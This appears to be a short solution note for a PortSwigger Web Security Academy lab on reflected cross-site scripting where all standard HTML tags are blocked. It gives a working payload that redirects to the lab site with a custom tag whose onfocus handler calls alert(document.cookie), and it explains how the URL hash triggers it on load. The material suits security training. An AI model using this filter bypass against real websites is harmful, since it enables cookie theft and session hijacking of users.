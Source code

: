 **Reflected XSS into HTML context with all tags blocked except custom ones**

```
<script>
location = 'https://0aff00b304ae4719808dd08900ba0019.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```


This injection creates a custom tag with the ID x, which contains an onfocus event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called. 

From <https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked> 
